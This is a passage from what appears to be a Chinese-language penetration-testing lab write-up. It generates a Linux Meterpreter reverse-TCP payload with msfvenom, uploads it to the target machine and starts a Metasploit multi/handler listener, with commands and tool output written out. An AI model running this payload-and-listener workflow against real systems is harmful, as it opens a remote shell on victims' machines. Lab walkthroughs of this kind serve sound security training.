 
msfconsole 生成 payload 文件（LHOST 127.0.0.1 LPORT 4444），上传到靶机。

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o elf 

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: elf
```

![image-20250304181254293](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250304181254293.png)



msfconsole 监听端口

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 127.0.0.1 
LHOST => 127.0.0.1

msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444

msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444 
```
